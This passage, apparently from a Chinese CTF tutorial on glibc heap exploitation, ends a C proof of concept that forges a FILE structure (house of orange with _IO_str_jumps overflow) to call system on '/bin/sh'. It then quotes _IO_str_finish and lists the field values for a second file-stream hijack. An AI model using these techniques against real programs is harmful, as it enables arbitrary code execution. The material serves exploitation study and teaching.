 ```c
    // top[0] &= ~8;
    top[0] = 0;
    top[4] = 0; // write_base
    top[5] = ((size_t)&binsh_in_libc-100)/2 + 1; // write_ptr
    top[7] = 0; // buf_base
    top[8] = top[5] - 1; // buf_end
    // house_of_orange conditions
    top[1] = 0x61;

    top[20] = (size_t) &top[18];
    top[21] = 2;
    top[22] = 3;
    top[24] = -1;
    top[27] = (size_t)stdin - 0x3868-0x18; // _IO_str_jumps地址
    top[28] = (size_t) &winner;
    /* Finally, trigger the whole chain by calling malloc */
    malloc(10);
    return 0;
}
int winner(char *ptr)
{ 
    system(ptr);
    return 0;
}
```



### _IO_str_jumps -> finish

原理与上面的 _IO_str_jumps -> overflow 类似

```c
void
_IO_str_finish (_IO_FILE *fp, int dummy)
{
  if (fp->_IO_buf_base && !(fp->_flags & _IO_USER_BUF))
    (((_IO_strfile *) fp)->_s._free_buffer) (fp->_IO_buf_base);  //[fp+0xe8]
  fp->_IO_buf_base = NULL;

  _IO_default_finish (fp, 0);
}
```

条件：

1. _IO_buf_base不为空
2. _flags & _IO_USER_BUF(0x01) 为假

构造如下：

```bash
_flags = (binsh_in_libc + 0x10) & ~1
_IO_buf_base = binsh_addr

_freeres_list = 0x2
_freeres_buf = 0x3
_mode = -1
vtable = _IO_str_finish - 0x18
fp+0xe8 -> system_addr
```
